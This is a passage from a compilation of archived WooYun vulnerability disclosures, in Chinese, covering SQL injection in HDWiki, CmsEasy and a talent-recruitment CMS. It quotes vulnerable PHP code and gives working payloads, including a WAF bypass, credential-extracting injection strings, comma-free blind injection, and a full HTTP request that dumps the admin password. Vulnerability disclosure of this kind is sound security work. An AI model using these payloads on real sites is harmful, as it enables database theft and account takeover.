        return($this->db->query("REPLACE INTO ".DB_TABLEPRE."blacklist (uid,blacklist) VALUES('$uid','$blacklist')"));

    } 
```

然后直接入库, 虽然转义了 但是转义后入库之后转义符会被消除的。

来看看哪里出库了。

依旧在 control/pms.php 中

```php
function dobox(){

        $this->get[3] = empty($this->get[3]) ? NULL : $this->get[3];

        $page = max(1,isset($this->get[4]) ? $this->get[4] : $this->get[3]);

        $num = isset($this->setting['list_prepage'])?$this->setting['list_prepage']:20;

        $start_limit = ($page - 1) * $num;        

        $count = $_ENV['pms']->get_totalpms($this->user['uid'], $this->get[2]); 
```

```php
function get_totalpms($uid, $type, $group=''){

        $sqladd = '';

        if($type == 'inbox'){

            $blacklist = $this->get_blacklist($uid);

            if($blacklist == '[ALL]'){

                return '0';

            }else{

                $blackuser = str_replace(",","','",$blacklist);

                if($group){

                    $sqladd = ($group == 'owner') ? 'AND og=0' : 'AND og=1';

                }

                $query = "SELECT COUNT(*) num FROM ".DB_TABLEPRE."pms WHERE toid='$uid' AND delstatus!=2 AND drafts!=1 $sqladd AND `from` NOT IN ('$blackuser')";

            }        

        }else{

            $sqladd = ($type == 'outbox') ? 'drafts!=1' : 'drafts=1';

            $query = "SELECT COUNT(*) as num FROM ".DB_TABLEPRE."pms WHERE fromid='$uid' AND delstatus!=1 AND $sqladd";            

        }

        $total = $this->db->fetch_first($query);

        return $total['num'];        

    } 
```

$blacklist = $this->get_blacklist($uid);

```php
function get_blacklist($uid){

        $user = $this->db->fetch_first("SELECT blacklist FROM ".DB_TABLEPRE."blacklist WHERE uid='".$uid."'");

        return $user['blacklist'];

    } 
```

这里把刚才入库的查询了出来 成功引入了单引号。

```php
$blackuser = str_replace(",","','",$blacklist);

                if($group){

                    $sqladd = ($group == 'owner') ? 'AND og=0' : 'AND og=1';

                }

                $query = "SELECT COUNT(*) num FROM ".DB_TABLEPRE."pms WHERE toid='$uid' AND delstatus!=2 AND drafts!=1 $sqladd AND `from` NOT IN ('$blackuser')"; 
```

然后查询出来后赋值给$blackuser 然后带入了查询当中， 而且在最后

return $total['num'];

return 回来后直接 $this->view->assign('count',$count); 输出来。

就可以直接出数据。

$blackuser = str_replace(",","','",$blacklist);

在这里会把逗号替换 然后就不用逗号来注入把。

## 漏洞证明


首先在忽略列表里面添加这样的语句

然后访问


直接出数据。

## 修复方案

转义一下。

挖洞不易 给个 20 分把。

# WooYun-2014-60166：云人才系统 SQL 注入，绕过 WAF

漏洞作者： [酱油甲](http://www.wooyun.org/whitehats/酱油甲)

来源：[`www.wooyun.org/bugs/wooyun-2014-060166`](http://www.wooyun.org/bugs/wooyun-2014-060166)

## 简要描述

云人才系统 SQL 注入，绕过 WAF

## 详细说明

云人才系统 SQL 注入，绕过了 360 的 WAF~~

首先需要注册一个普通用户~

比如官方演示站点：


然后来到

[`**.**.**.**/member/index.php?M=index&C=info`](http://**.**.**.**/member/index.php?M=index&C=info)

可以看到有某数字的 WAF：


于是我们发现代码如下：

```php
function info_action(){

        if($_POST["submitBtn"]){

            $_POST=$this->post_trim($_POST);

            if($_POST["name"]==""){

                $this->obj->ACT_msg("index.php?C=info","��������Ϊ�գ�");

            }

            if($_POST["city"]==""){

                $this->obj->ACT_msg("index.php?C=info","�������ڵز���Ϊ�գ�");

            }

            if($this->config['user_idcard']=="1")

            {

                if($_POST["idcard"]==""){

                    $this->obj->ACT_msg("index.php?C=info","���֤���벻��Ϊ�գ�");

                }

            }

            if($_POST["cityid"]==""){

                $this->obj->ACT_msg("index.php?C=info","�־�ס�ز���Ϊ�գ�");

            }

            if($_POST["address"]==""){

                $this->obj->ACT_msg("index.php?C=info","��ϸ��ַ����Ϊ�գ�");

            }

            unset($_POST["submitBtn"]);

            $this->obj->delfiledir("../upload/tel/".$this->uid);

            $where["uid"]=$this->uid;

            $nid=$this->obj->update_once("resume",$_POST,$where); 
```

最后 update_once 的时候直接把$_POST 带入，然后再处理数组，而且想到如果不使用等号，就能绕过 WAF，于是就使用反引号闭合来注入：

火狐插件提交语句为：

```php
name=123123&sex=6&birthday=1988-01-01&marriage=8&height=&nationality=&weight=&province=3&city=38&three_city=400&idcard=&telphone=13989765678&telhome=&email=testtest%**.**.**.**&edu=9&provinceid=9&cityid=88&three_cityid=485&exp=18&address=dsfsdfdsfsdf&submitBtn=+%B1%A3+%B4%E6&description%60%3D%28select+%40%40version%29%23=123 
```

也可以使用 burp 提交：

```php
name=123123&sex=6&birthday=1988-01-01&marriage=8&height=&nationality=&weight=&province=3&city=38&three_city=400&idcard=&telphone=13989765678&telhome=&email=testtest%**.**.**.**&edu=9&provinceid=9&cityid=88&three_cityid=485&exp=18&address=dsfsdfdsfsdf&submitBtn=%2B%B1%A3%2B%B4%E6&description%60%3D%28select%2B%40%40version%29%23=123 
```

~这里就绕过了 WAF 限制~~

## 漏洞证明

看看效果：

VERSION


数据库路径：


数据库用户：


## 修复方案

过滤

# WooYun-2014-66221：Cmseasy SQL 注射漏洞之三

漏洞作者： [Noxxx](http://www.wooyun.org/whitehats/Noxxx)

来源：[`www.wooyun.org/bugs/wooyun-2014-066221`](http://www.wooyun.org/bugs/wooyun-2014-066221)

## 简要描述

注入。。

## 详细说明

bbs 中发文章的时候 直接把$_POST 数据带入 拼接 sql 功能函数中导致注入

/bbs/add-archive.php 30 行

```php
if($id = $archive->inserData($_POST)){ 
```

直接带入整个$_POST

/bbs/model/db/base.php 38 行

```php
public function inserData($data){

       $r = $this->odb->insert($this->tblName,$data); //在跟入

       if($r)

           return $this->odb->getInsertId();

       else

           return false;

} 
```

/bbs/commonlib/db.php

```php
public function insert($table, $data)

    {

        $sql = $this->getInsertString($table, $data);//拼接 sql 继续看。。

        return $this->execSql($sql);

    } 
```

```php
public function getInsertString($table, $data)

    {

        $n_str = '';

        $v_str = '';

        $table = $this->filterString($table);

        foreach ($data as $k => $v)//遍历数据  因为穿过来的是整个$_POST 所以 我们可以任意控制 列明和值

        {

            $n_str .= $this->filterString($k).',';

            $v_str .= "'".$this->filterString($v)."',";

        }

        $n_str = preg_replace( "/,$/", "", $n_str );

        $v_str = preg_replace( "/,$/", "", $v_str );

        $str = 'INSERT INTO '.$table.' ('.$n_str.') VALUES('.$v_str.')';

        return $str;

    } 
```

```php
public function filterString($str)

    {

        if ($this->magic_quotes)

        {

            $str = stripslashes($str);

        }

        if ( is_numeric($str) ) {

            return $str;

        } else {

            $ret = @mysqli_real_escape_string($this->con, $str);

            if ( strlen($str) && !isset($ret) ) {

                $r = $this->checkConnection();

                if ($r !== true) {

                    $this->closeDB();

                    $ret = $str;

                }

            }

            return $ret;

        }

    } 
```

过滤也没什么用 因为没过滤关键一些语句

里面还有一个 360safe.php 的脚本 但是 这个并不过滤键名 只过滤键值

还有一个变量名中的点和空格被转换成下划线。不过不用空格也是可以的。。

exp:

**.**.**.**/PHP/CmsEasy/bbs/add-archive.php?cid=1

(POST)

title=a&content)values(1,(SELECT(CONCAT(USERNAME,0x7c,PASSWORD))FROM(cmseasy_user)WHERE(USERID%3D1)))#=c&submit=a&verify=HKCX

## 漏洞证明

mysql 日志 ：

2070 Query INSERT INTO cmseasy_bbs_archive (title,content)values(1,(SELECT(CONCAT(USERNAME,0x7c,PASSWORD))FROM(cmseasy_user)WHERE(USERID=1)))#,username,userid,ip,addtime) VALUES('a','c','123213','4','**.**.**.**','1403698291')


## 修复方案

不要把$_POST 提交过去。。

# WooYun-2014-88004：Hdwiki (20141205) 存在 7 处 SQL 注入漏洞（含之前处理不当安全的漏洞）

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-088004`](http://www.wooyun.org/bugs/wooyun-2014-088004)

## 简要描述

看到更新了, 有几个老洞还没修复 也随便放到这里面来说了。

## 详细说明

0x01 在 control/comment.php 中

```php
function doreport(){

        $usernames=array();

        $id=intval($this->post['id']) ? $this->post['id'] : 0;

        $report=trim(htmlspecialchars(WIKI_CHARSET==GBK?string::hiconv($this->post['report']):$this->post['report']));

        if(empty($id)||empty($report)){

            $this->message(-1,'',2);

        }

        $users=$_ENV["user"]->get_users('groupid',4);

        if(!(bool)$users){

            $this->message(-2,'',2);

        }else{

            foreach($users as $user){

                $usernames[]=$user['username'];

            }

        }

        $sendto=join(',',$usernames);

        $subject=$this->view->lang['commentReportObj'];

        if($this->user['uid']=='0'){

            $from=$this->ip;

        }else{

            $from=$this->user['username'];

        }

        $comment=$this->db->fetch_by_field('comment','id',$id);// 这里出了个裤。

        if(!(bool)$comment){

            $this->message(-1,'',2);

        }

        $doc=$this->db->fetch_by_field('doc','did',$comment['did']);

        $doc['title'] =htmlspecialchars(stripslashes($doc['title']));

        $report=$this->view->lang['commentCom'].$this->view->lang['commentUser'].$comment['author'].'<br/>'

                .$this->view->lang['commentCom'].$this->view->lang['commentTime'].$this->date($comment['time'])."<br/>"

                .$this->view->lang['commentId'].$comment['id'].'<br/>'.$this->view->lang['commentsDocTitle'].$doc['title']."<br/>"

                .$this->view->lang['commentContent'].$comment['comment'].'<br/>'

                .$this->view->lang['commentReportReason'].$report;//这里把出库的$comment 写到了$report 中

        $sendarray = array(

                'sendto'=>$sendto,

                'subject'=>$subject,

                'content'=>$report,//带入数组

                'isdraft'=>1,

                'user'=>$this->user

            );

        $_ENV['pms']->send_ownmessage($sendarray); 
```

```php
function send_ownmessage($sendarray){

        $pmsresult = true;

        $isdraft = ($sendarray['isdraft'] === 'on')? 1 : 0;

        $userinfo = $this->check_recipient($sendarray['sendto'],1);

        $num = count($userinfo);

        if($num > 0){

            $pmsquery = "INSERT INTO ".DB_TABLEPRE."pms (`from`,`fromid`,`drafts`,`toid`,`to`,`subject`,`message`,`time`,`new`) VALUES ";

            for($i=0; $i<$num; $i++){

                $pmsquery .= "('".$sendarray['user']['username']."','".$sendarray['user']['uid']."','".$isdraft."','".$userinfo[$i]['uid']."','".$userinfo[$i]['username']."','".$sendarray['subject']."','".$sendarray['content']."','".$this->base->time."',1),";    //无过滤 又直接带入到了 insert 当中

            }

            $pmsquery = substr($pmsquery,0,-1) . ';';

            $pmsresult = $this->db->query($pmsquery);

        }

        return $pmsresult;

    } 
```

```php
词条的评论（共 1 条）返回词条

xiaoyu 时间：12-19 00:47

test'//我们随便找一个词条 然后我们自己先去评论一条 这里评论了 test'

     // 然后点击举报 看看执行的语句  INSERT INTO wiki_pms (`from`,`fromid`,`drafts`,`toid`,`to`,`subject`,`message`,`time`,`new`) VALUES ('xiaoyu','2','0','1','admin','评论举报专用','评论作者：xiaoyu<br/>评论时间：12-19 00:47<br/>评论 ID：8<br/>评论词条名：xiaoyuxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxasd<br/>评论内容：test'<br/>举报原因 teet','1418921320',1) 

评论内容：test' 这里出库了。 
```

这里的怎么回显让我纠结了很久。

INSERT INTO wiki_pms (`from`,`fromid`,`drafts`,`toid`,`to`,`subject`,`message`,`time`,`new`) VALUES ('xiaoyu','2','0','1','admin','评论举报专用','评论作者：xiaoyu<br/>评论时间：12-19 00:47<br/>评论 ID：8<br/>评论词条名：xiaoyuxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxasd<br/>评论内容：test'<br/>举报原因 teet','1418921320',1)

这里会把我们的 message 的内容回显出来,在发送邮件的那里。 这里是发给了管理员 但是我们的发件箱可以看到。 后面还剩了一个 time 和 new 都是不会显示出来的而且 hdwiki 没 mysql error 所以不会报错。二次注入的话盲注会很麻烦,所以像办法直接出数据。

INSERT INTO wiki_pms (`from`,`fromid`,`drafts`,`toid`,`to`,`subject`,`message`,`time`,`new`) VALUES ('xiaoyu','2','0','1','admin','评论举报专用','评论作者：xiaoyu<br/>评论时间：12-19 00:47<br/>评论 ID：8<br/>评论词条名：a<br/>评论内容：test'+123,1,1)#<br/>举报原因 teet','1418921320',1)

评论内容：test'+123 mysql +不能连接字符串 只能加一个数字。 加字符是加不进去的

一开始是想的 hex 但是 hex 也会有字符。 然后就是想的把 16 进制转换成 10 进制

10 进制就没数字了撒 然后完整的就是


举报后 进入自己的发件箱

标题 收件人 时间

评论举报专用 admin 01-01 08:00

1919905652

转发 删除 关闭

可以看到这样的发件的。 看 1919905652 这个转 16 进制 得 726f6f74 然后加上 0x726f6f74

再把 HEX 编码回来 得 root 这样一次截取的字符不能太多 太多了数字太大会报错。

0x02 control/doc.php

```php
function docheckrecipient(){

        $sendto = $this->post['sendto'];

        if (WIKI_CHARSET == 'GBK'){

            $sendto = string::hiconv($sendto,'GBK','UTF-8',1);//转码

        }

        $send = explode(',',$sendto);

        if(count($send)>10){

            $this->message($this->view->lang['fullsend'],'',2);

        }

        $checkreturn = $_ENV['pms']->check_recipient($sendto,0);

        $message = ($checkreturn === true)? 'OK' : ($checkreturn.' '.$this->view->lang['loginTip3']);

        $this->message($message,'',2);

    } 
```

```php
function hiconv($str,$to='',$from='',$force=false) {

        if (empty($str)) return $str;

        if(!preg_match( '/[\x80-\xff]/', $str)) return $str; // is contain chinese char

        if(empty($to)){

            if ('utf-8' == strtolower(WIKI_CHARSET)){

                return $str;

            }

            $to=WIKI_CHARSET;

        }

        if(empty($from)){

            $from = ('gbk'==strtolower($to)) ? 'utf-8':'gbk';

        }

        $to=strtolower($to);

        $from=strtolower($from);

        //$isutf8=preg_match( '/^([\x00-\x7f]|[\xc0-\xdf][\x80-\xbf]|[\xe0-\xef][\x80-\xbf]{2}|[\xf0-\xf7][\x80-\xbf]{3})+$/', $str );

        $re = strlen($str) > 6 ? '/([\xe0-\xef][\x80-\xbf]{2}){2}/' : '/[\xe0-\xef][\x80-\xbf]{2}/';

        $isutf8 = preg_match($re, $str);

        //$force = (substr($to, 0, 3) == 'utf') ? true : $force;

        if(!$force && $isutf8 && $to=='utf-8' ) return $str;//当 force 为 1 的时候才不会 return 这里的点 force 刚好为 1

        if(!$force && !$isutf8 && $to=='gbk' ) return $str;

        if (function_exists('iconv')){

            $str = iconv($from, $to, $str);//转码 宽字节 绕过转义符

        }else{

            require_once(HDWIKI_ROOT.'/lib/Chinese.class.php');

            $ch = new chinese($from,$to);

            if('utf-8'==$from){

                $str = addslashes($ch->convert(stripslashes($str)));

            }else{

                $str = $ch->convert($str);

            }

        }

        return $str;

    } 
```

```php
function check_recipient($sendto, $type){

        $userinfos = array();

        $send = array_unique(explode(',', $sendto));//这里把逗号替换了 注定不能用逗号了。

        sort($send);

        $num = count($send);

        $sendto = str_replace(",", "','", $sendto);

        $query = $this->db->query("SELECT username,uid FROM ".DB_TABLEPRE."user WHERE username IN ('$sendto')");

        if($this->db->num_rows($query) == $num && $type != 1){

            return true;

        } 
```

盲注之。

[`web/dan/hdwiki//index.php?pms-checkrecipient`](http://web/dan/hdwiki//index.php?pms-checkrecipient)

sendto=a%E9%8C%A6%27) or CASE WHEN(substr((select username from wiki_user where uid=1) from 1 for 1) in (char(97))) THEN (1) ELSE (0) end limit 1#

//bypass 逗号的盲注语句。

97 对应的是 a 当第一位是 a 的时候 返回 ok




当不对应时 直接错误。 写个脚本直接跑 很简单的判断。

0x03 control/doc.php 中

```php
function dochangename(){

        $ajaxtitle = trim($this->post['newname']);

        if(string::hstrtoupper(WIKI_CHARSET)=='GBK'){

            $ajaxtitle=string::hiconv($ajaxtitle,'gbk','utf-8','true');//force 为 1 转码 绕过转义符

        }

        $title=string::substring(string::stripscript($_ENV['doc']->replace_danger_word(trim($ajaxtitle))),0,80);

        if(@!is_numeric($this->post['did'])){

            $this->message("-1","",2);

        }elseif($ajaxtitle!=string::stripscript($ajaxtitle)){

            $this->message("-3","",2);

        }elseif(!$title){

            $this->message("-4","",2);

        }elseif(@(bool)$this->db->fetch_by_field('doc','title',$title)){//这里带入查询

            $this->message("-2","",2);

        }elseif(@(bool)$this->db->fetch_by_field('synonym','srctitle',$title)){

            $this->message("-5","",2);

        }elseif($_ENV['doc']->change_name($this->post['did'],$title)){

            $_ENV['synonym']->synonym_change_doc($this->post['did'],$title);

            // ֪ͨ

            if(1 == $this->setting['cloud_search']) {

                // ༭ ֪ͨ

                $_ENV['search']->cloud_change(array('dids'=>$this->post['did'],'mode'=>'2'));

            } 
```

这个跟上个差不多 就不多说了。

0x04 control/edition.php

```php
function doremove(){

        $did=isset($this->post['did'])?$this->post['did']:$this->get[2];

        $eids=isset($this->post['eid'])?$this->post['eid']:array($this->get[3]);//post 来

        foreach($eids as $eid){ 

            if(!is_numeric($eid)&&!is_numeric($did)){

//这里判断是不是数字 如果是不是数字的话 直接返回错误了。 但是这里有个问题是 当$eids 为数组的时候才会进 foreach 如果不是数组 那么就不会进这个判断 这里我们直接提交一个字符串

                $this->message($this->view->lang['parameterError'],'BACK',0);

            }

        }

        $result=$_ENV['doc']->remove_edition($eids, $did);//带入查询 
```

```php
function remove_edition($eid, $did=0){

        if(is_array($eid)){

            $eid=implode(",",$eid);

        }

        $sql="INSERT INTO ".DB_TABLEPRE."recycle (type,keyword,content,file,adminid,admin,dateline) values ";

        $query=$this->db->query("SELECT * FROM ".DB_TABLEPRE."edition WHERE eid IN ($eid)");//这里 eid 没单引号

        $delete_count = array();

        while($edition=$this->db->fetch_array($query)){ 
```


0x05 依旧 control/edition.php

```php
function doexcellent(){

        foreach(@$this->post['eid'] as $eid){

            if(!is_numeric($eid)){//一样的逻辑错误

                $this->message($this->view->lang['parameterError'],'BACK',0);

            }

        }

        $result=$_ENV['doc']->set_excellent_edition($this->post['eid']); 
```

```php
function set_excellent_edition($eid,$type=1){

        if(is_array($eid)){

            $eid=implode(",",$eid);

        }

        $type=(bool)$type?1:0;

        $this->db->query("UPDATE ".DB_TABLEPRE."edition SET excellent=$type WHERE eid IN ($eid)");//依旧没单引号 可注入

        return true; 
```

跟上面个差不多 不多说了。

0x06 control/doc.php 中

```php
function docreate(){

        if(4 != $this->user['groupid'] && ($this->time-$this->user['regtime'] < $this->setting['forbidden_edit_time']*60)){

            $this->message($this->view->lang['editTimeLimit1'].$this->setting['forbidden_edit_time'].$this->view->lang['editTimeLimit2'],'BACK',0);

        }

        if($this->setting['verify_doc'] == -1) { //首次编辑审核

            if($this->setting['max_newdocs'] != 0 && $this->user['newdocs'] >= $this->setting['max_newdocs']) {

                $this->message('您的首次可创建或编辑词条数的数量已达最大值,请等待管理员审核', 'BACK', 0);

            }

        }

if($this->setting['checkcode']!=3 && $this->setting['doc_verification_create_code'] && strtolower($this->post['code'])!=$_ENV['user']->get_code()){

                $this->message($this->view->lang['codeError'],'BACK',0);

            }

            if(@trim($this->post['content'])==''[[email protected]](/cdn-cgi/l/email-protection)($this->post['title'])==''){

                $this->message($this->view->lang['contentIsNull'],'BACK',0);

            }

            $doc['title']=string::substring(string::stripscript($_ENV['doc']->replace_danger_word(trim($this->post['title']))),0,80);//这里关键点 对 POST 来的截取了字符 

这里大概的意思是 假如说一段代码截取 4 个字符 那么我们就提交一个 aaa' 然后转义成 aaa\' 截取字符后就是 aaa\ 这里同理

            $_doc=$this->db->fetch_by_field('doc','title',$doc['title']);

            if((bool)$_doc && !empty($_doc['content'])){

                $this->message($this->view->lang['createDocTip5'],'BACK',0);

            }

            if(!(bool)$_ENV['category']->vilid_category($this->post['category'])){

                $this->message($this->view->lang['categoryNotExist'],'BACK',0);

            }

            if((bool)$this->post['summary']){

                $doc['summary']=trim(strip_tags($_ENV['doc']->replace_danger_word($this->post['summary'])));

            }

            $doc['did']=intval($this->post['did']);

            $doc['letter']=string::getfirstletter($this->post['title']);

            $doc['category']=$this->post['category'];

            //$doc['tags']=$_ENV['doc']->jointags($this->post['tags']);

            $doc['tags']=$this->post['tags'];

            $doc['tags']=$_ENV['doc']->replace_danger_word($doc['tags']);

            $doc['tags'] = htmlspecialchars(string::stripscript($doc['tags']));

            $doc['content'] = $_ENV['doc']->replace_danger_word($this->post['content']);

            $doc['content'] = preg_replace('/(<embed.*?(?:allowscriptaccess)=)\\\?([\'"]?)(\w*?)\\\?\2(.*?>)/i','$1$2never$2$4',$doc['content']);//将 embed 标签中的 allowscriptaccess 属性设置为 never

            $doc['content'] = preg_replace('/(<embed(?:(?!allowscriptaccess).)+?)(>)/i','$1 allowscriptaccess="never" $2',$doc['content']);//将 embed 标签中如果不存在 allowscriptaccess 属性则添加属性并设为 never

            $doc['content'] = addslashes(string::stripscript(stripslashes($doc['content'])));

            $doc['content'] = $this->setting['auto_picture']?$_ENV['doc']->auto_picture($doc['content'],$doc['did']):$doc['content'];

            $doc['summary'] = trim(strip_tags($_ENV['doc']->replace_danger_word($doc['summary'])));//去除敏感词

            $doc['summary'] = (bool)$doc['summary']?$doc['summary']:$doc['content'];

            $doc['summary'] = trim(string::convercharacter(string::substring(strip_tags($doc['summary']),0,100)));//去除换行符截断字符串

            $doc['summary'] = htmlspecialchars(addslashes(stripslashes(string::stripscript(strip_tags($doc['summary'])))));//去除特殊字符 去除 javascript 代码

            $doc['images']=util::getimagesnum($doc['content']);

            $doc['time']=$this->time;

            $doc['words']=string::hstrlen($doc['content']);

            $doc['visible']=$this->setting['verify_doc'] != 0 ? '0' : '1';

            if(strpos($this->user['regulars'], 'doc-immunity') === false && 4 != $this->user['groupid']) {

                if(!$_ENV['doc']->check_submit_interval($this->user['uid'])) {

                    if($this->setting['save_spam']) {

                        $doc['visible'] = 0;

                    } else {

                        $this->message(sprintf($this->view->lang['submit_interval_msg'], $this->setting['submit_min_interval']),"BACK",0);

                    }

                }

                if(!$_ENV['doc']->check_eng_pcnt($doc['content']) || !$_ENV['doc']->check_extlink_pcnt($doc['content'])) {

                    if($this->setting['save_spam']) {

                        $doc['visible'] = 0;

                    } else {

                        $this->message($this->view->lang['spam_msg'],"BACK",0);

                    }

                }

            }

            if(strpos($this->user['regulars'], 'doc-immunity') !== false || 4 == $this->user['groupid'] || !$this->setting['verify_doc'] || ($this->setting['verify_doc'] == -1 && $this->user['newdocs'] == -1)){

                $doc['visible'] = 1;

            }

            if($this->setting['verify_doc'] == -1) { //首次编辑审核

                if($this->user['newdocs'] != -1) {

                    $_ENV['user']->update_newdocs($this->user['uid'], +1);

                }

            }

            if($doc['visible'] == 1){

                $_ENV['user']->add_credit($this->user['uid'],'doc-create',$this->setting['credit_create'],$this->setting['coin_create']);

            }

            /*foreach($this->post['tags'] as $search_tags){

                $doc['search_tags'] .=string::convert_to_unicode($search_tags).";";

            }*/

            $did=$_ENV['doc']->add_doc($doc);//这里这里 带入入库入库了。

            $_ENV['user']->update_field('creates',$this->user['creates']+1,$this->user['uid']);

<code>function add_doc($doc) {

        $editions = ($this->base->setting['base_createdoc']==1)?1:0;

        $doc['title'] = trim($doc['title']);

        if ($doc['did']){

            $this->db->query("REPLACE INTO ".DB_TABLEPRE."doc

            (did,letter,title,tag ,summary ,content,author,authorid,time,lastedit,lasteditor,lasteditorid,visible,editions)

            VALUES (".$doc['did'].",'".$doc['letter']."','".$doc['title']."','".$doc['tags']."','".$doc['summary']."','".$doc['content']."',

            '".$this->base->user['username']."','".$this->base->user['uid']."',

            ".$doc['time'].",".$doc['time'].",'".$this->base->user['username']."','".$this->base->user['uid']."','".$doc['visible']."',$editions)");

            $did = $doc['did'];

            $this->db->query("DELETE FROM ".DB_TABLEPRE."autosave WHERE did=".$did." AND uid=".$this->base->user['uid']);

        }else{

            $this->db->query("INSERT INTO ".DB_TABLEPRE."doc

            (letter,title,tag ,summary ,content,author,authorid,time,lastedit,lasteditor,lasteditorid,visible,editions)

            VALUES ('".$doc['letter']."','".$doc['title']."','".$doc['tags']."','".$doc['summary']."','".$doc['content']."',

            '".$this->base->user['username']."','".$this->base->user['uid']."',

            ".$doc['time'].",".$doc['time'].",'".$this->base->user['username']."','".$this->base->user['uid']."','".$doc['visible']."',$editions)");

            $did = $this->db->insert_id();

            $this->add_doc_category($did, $doc['category']);

            $this->db->query("DELETE FROM ".DB_TABLEPRE."autosave WHERE did=".$did." AND uid=".$this->base->user['uid']);

        }

        if($this->base->setting['base_createdoc']==1){

            $this->db->query("INSERT INTO ".DB_TABLEPRE."edition

            (did,author,authorid,time,ip,title,tag,summary,content,words,images )

            VALUES ($did,'".$this->base->user['username']."','".$this->base->user['uid']."',

            '".$doc['time']."','".$this->base->ip."','".$doc['title']."','".$doc['tags']."','".$doc['summary']."','".$doc['content']."','".$doc['words']."','".$doc['images']."')");

        }

        return $did;

    } 
```

$doc['title']."','".$doc['tags'] 刚好这截取字符的 后面跟的是一个 post 来的 那么就可以注入了。

后面看了下 这个洞竟然被提交过了 [`**.**.**.**/bugs/wooyun-2010-081667`](http://**.**.**.**/bugs/wooyun-2010-081667)

但是我觉得 xxx 牛给的利用很不完美啊。 至少在我这个版本/* 是不成功的

在 php 中/ *能直接注释掉后面的东西 但是 mysql 很多版本都需要在后面接*/才能注释掉

一开始我也在这语句上纠结了很久 我们先来看一下这个语句

REPLACE INTO wiki_doc

(did,letter,title,tag ,summary ,content,author,authorid,time,lastedit,lasteditor,lasteditorid,visible,editions)

VALUES (56,'x','xiaoyuxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxasd\',',user(),1,1,1,1,1,1,1,1#','asd','<p>asd<br /></p>',

'xiaoyu','2',

1418925356,1418925356,'xiaoyu','2','1',0)

是这样的 他换行了。 就是因为这个换行 让人蛋疼。

首先我们知道# -- 都是单行注释 这个多行注释/ *在 mysql 中又需要接*/

后面的我们是不可控的 所以也没办法利用 这里我们还是得来接我们的单行注释

一共 14 个 column 换行了后的有 8 个 column 所以我们前面需要接 6 个 column

56,'x','xiaoyuxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxasd\',' 这里是三个 所以我们构造一下

56,'x','xiaoyuxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxasd\',',1,1,1 这样就是 6 个了。 在 1 后面还需要构造一个, 为的就是和下面换行了的连接起来 然后再注释掉这一行后面的那么最终语句就是

REPLACE INTO wiki_doc

(did,letter,title,tag ,summary ,content,author,authorid,time,lastedit,lasteditor,lasteditorid,visible,editions)

VALUES (56,'x','xiaoyuxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxasd\',',concat(user(),0x23,version()),user(),(select concat(username,0x2c,password) from wiki_user where uid=1),#','asd','<p>asd<br /></p>',

'xiaoyu','2',

1418925356,1418925356,'xiaoyu','2','1',0)

```php
POST /dan/hdwiki/index.php?doc-create HTTP/1.1

Host: web

User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:12.0) Gecko/20100101 Firefox/12.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: zh-cn,zh;q=0.8,en-us;q=0.5,en;q=0.3

Accept-Encoding: gzip, deflate

Proxy-Connection: keep-alive

Referer: http://web/dan/hdwiki/index.php?doc-create

Cookie: ECS[visit_times]=6; themeIndexTom=2; KT-GUID=KT-C3DD75C5698EA55255357D6602C6136C; KT-ADMIN=admin; 17cplastvisit=1418373539; 17cplastactivity=0; __utma=242480388.119574638.1418373557.1418373557.1418373557.1; __utmz=242480388.1418373557.1.1.utmccn=(direct)|utmcsr=(direct)|utmcmd=(none); hd_sid=7YD9xP; hd_auth=b37eKa64aWjTOOSABPRfh3bnxRh50jO7TfArgwNT1RGI1HzWq11B2XSpwCG%2BKaHUwNFm9NRHXZ2nR5JUNbvW

Content-Type: multipart/form-data; boundary=---------------------------41184676334

Content-Length: 1534

-----------------------------41184676334

Content-Disposition: form-data; name="did"

56

-----------------------------41184676334

Content-Disposition: form-data; name="section_id"

-----------------------------41184676334

Content-Disposition: form-data; name="create_submit"

1

-----------------------------41184676334

Content-Disposition: form-data; name="title"

xiaoyuxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxasd\

-----------------------------41184676334

Content-Disposition: form-data; name="category"

3

-----------------------------41184676334

Content-Disposition: form-data; name="content"

<p>asd<br /></p>

-----------------------------41184676334

Content-Disposition: form-data; name="letter"

asd

-----------------------------41184676334

Content-Disposition: form-data; name="tags"

,concat(user(),0x23,version()),user(),(select concat(username,0x2c,password) from wiki_user where uid=1),#

-----------------------------41184676334

Content-Disposition: form-data; name="code"

-----------------------------41184676334

Content-Disposition: form-data; name="publishsubmit"

·à2?

-----------------------------41184676334--

Content-Disposition: form-data; name="tags"

,user(),user(),user(),user(),1,1,1,1,1,1,1)#

-----------------------------491299511942

Content-Disposition: form-data; name="code"

-----------------------------491299511942

Content-Disposition: form-data; name="publishsubmit"

·à2?

-----------------------------491299511942-- 
```

成功执行。


直接出数据。

0x07 control/pms.php 中

```php
function doblacklist(){

        if(isset($this->post['blacklist'])){

            $blacklist = htmlspecialchars(string::stripscript($this->post['blacklist']));

            if(empty($blacklist)){

                $result = $_ENV['pms']->remove_blacklist($this->user['uid']);

            }else{

                $result = $_ENV['pms']->add_blacklist($blacklist,$this->user['uid']); 
```

```php
function add_blacklist($blacklist,$uid){

        return($this->db->query("REPLACE INTO ".DB_TABLEPRE."blacklist (uid,blacklist) VALUES('$uid','$blacklist')"));

    }//入库 
```

```php
function dobox(){

        $this->get[3] = empty($this->get[3]) ? NULL : $this->get[3];

        $page = max(1,isset($this->get[4]) ? $this->get[4] : $this->get[3]);

        $num = isset($this->setting['list_prepage'])?$this->setting['list_prepage']:20;

        $start_limit = ($page - 1) * $num;        

